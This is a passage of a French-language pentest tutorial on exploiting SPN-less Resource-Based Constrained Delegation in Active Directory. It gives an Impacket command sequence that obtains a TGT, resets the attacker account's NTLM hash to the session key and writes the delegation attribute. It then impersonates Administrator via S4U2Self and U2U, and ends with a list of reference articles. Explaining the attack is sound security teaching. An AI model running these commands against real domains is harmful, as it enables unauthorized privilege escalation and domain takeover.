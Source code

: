 ### 3.2 Pour l'exploitation de RBCD SPN-less

```bash
# Récupération d'un TGT de l'utilisateur
getTGT.py -hashes :$(pypykatz crypto nt '<MDP_COMPTE_ATTAQUANT_SANS_SPN>') '<DOMAINE>'/'<COMPTE_ATTAQUANT_SANS_SPN>'

# Récupération de la clé TGT de l'utilisateur
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

# Changement du hash NTLM du compte contrôlé par l'attaquant avec la clé de session du TGT
smbpasswd.py -newhashes :TGTSessionKey 'domain'/'COMPTE_ATTAQUANT_SANS_SPN':'<MDP_COMPTE_ATTAQUANT_SANS_SPN>'@'DC'

# Ajout du SID du compte attaquant dans msDs-AllowedToActOnBehalfOfOtherIdentity (liste) de la ressource cible 
# Ici, "USER" est l'utilisateur disposant d'une ACL permettant d'éditer l'attribut msDs-AllowedToActOnBehalfOfOtherIdentity de la ressource ciblée
impacket-rbcd -delegate-from '<COMPTE_ATTAQUANT_SANS_SPN>' -delegate-to "<NOM_MACHINE_CIBLE>$" -dc-ip <IP_DC> -action 'write' <DOMAINE>/<USER>:<MDP>

# Récupération d'un ticket de service en tant qu'administrator (S4U2Self + U2U) puis récupération d'un TGS pour le service ciblé (S4U2Self)
export KRB5CCNAME='TGT.ccache'
getST.py -u2u -impersonate "Administrator" -spn "host/<SERVICE_CIBLE>" -k -no-pass 'DOMAINE'/'COMPTE_ATTAQUANT_SANS_SPN'
```



## 4. Les sources

Merci à tout les articles suivants m'ayant permis de comprendre le fonctionnement de l'attaque.

- [RFC sur U2U](https://example.com/https://datatracker.ietf.org/doc/html/draft-swift-win2k-krb-user2user-01)
- [RFC Kerberos](https://datatracker.ietf.org/doc/html/rfc1510#section-3.3.3)
- [Article du blog hackndo sur RBCD](https://beta.hackndo.com/resource-based-constrained-delegation-attack/)
- [Article du blog thehacker.recipes sur le RBCD en SPN-less](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd)
- [Article expliquant le RBCD en SPN-less](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
- [Article sur la protection des utilisateurs et groupes](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts)
- [Article sur les délégations Kerberos](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [Article expliquant U2U](http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)
- [Article décrivant les requêtes Kerberos](https://beta.hackndo.com/kerberos/)
- [Article sur les délégations](https://luemmelsec.github.io/S4fuckMe2selfAndUAndU2proxy-A-low-dive-into-Kerberos-delegations/)
